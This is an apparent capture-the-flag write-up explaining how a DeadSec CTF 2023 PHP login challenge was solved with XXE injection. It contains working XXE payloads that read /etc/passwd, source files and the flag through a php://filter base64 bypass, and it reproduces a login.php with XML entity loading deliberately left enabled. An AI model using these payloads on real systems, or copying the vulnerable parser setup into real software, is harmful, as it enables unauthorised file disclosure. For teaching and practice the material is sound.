

# Xee1 Challenge

## question 

flag in flag.txt

Url: https://www.deadsec.xyz/instances/xee1

Author: onsra




## answer

First, as you know, I searched for XEE in php and find somethings, so i tried to test my ideas with change original login js function:

```js

function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	// admin/admin
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "login.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
```

to:

```js
function doLogin() {
    var username = $("#username").val();
    var password = $("#password").val();
    // admin/admin
    if (username == "" || password == "") {
        alert("Please enter the username and password!");
        return;
    }

    var data = `<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE user[<!ENTITY xxe SYSTEM "<my-inject-script>" >]><user><username>&xxe;</username><password>${password}</password></user>`; 
    $.ajax({
        type: "POST",
        url: "login.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
            console.log(result)
            var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
            var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
            if (code == "0") {
                $(".msg").text(msg + " login fail!");
            } else if (code == "1") {
                $(".msg").text(msg + " login success!");
            } else {
                $(".msg").text("error:" + msg);
            }
        },
        error: function (XMLHttpRequest, textStatus, errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    });
}
```

and i set some scripts instead of `<my-inject-script>`. first inject was `file:///etc/passwd` and i success to view content of file.

second try was view content of `login.php` file, but i could'nt, so i tried to encode content of file to base64 with:

```
php://filter/read=convert.base64-encode/resource=file:///var/www/html/login.php
```

and I success again, found login file content:

```php
<?php
ini_set('display_errors', 0);
$USERNAME = 'admin';
$PASSWORD = 'admin';
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		if (strpos($username, 'dead') !== false) {
			$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,"You can't read the flag");
		}
		else{
			$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
		}
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

then, i must to find `flag.txt` file, i different directories:

- `./flag.txt`
- `../flag.txt`
- `../../flag.txt`
- `/flag.txt`

and Boom!

> I also try to use `expect://ls` to get directory list, but failed!

this is my script to get content of `/flag.txt`:

```js
var data = `<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE user[<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///flag.txt" >]><user><username>tghgfhj &xxe;</username><password>fff</password></user>`;
```

but server response:

```xml
<result><code>0</code><msg>You can't read the flag</msg></result>
```

so, i realized that file content includes `dead` string and based on login page code, its filtered, so i must to bypass it via base64 :)

```js
var data = `<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE user[<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag.txt" >]><user><username>tghgfhj &xxe;</username><password>fff</password></user>`;
```

and get `ZGVhZHtuMWNlX2JyMF9YRTNfM3pfaDNoM30K` string to decode it:

**`dead{n1ce_br0_XE3_3z_h3h3}`**

## author

- name: DeadSec CTF 2023

- written by: madkne in 2023.05.20

- website: https://www.deadsec.xyz/
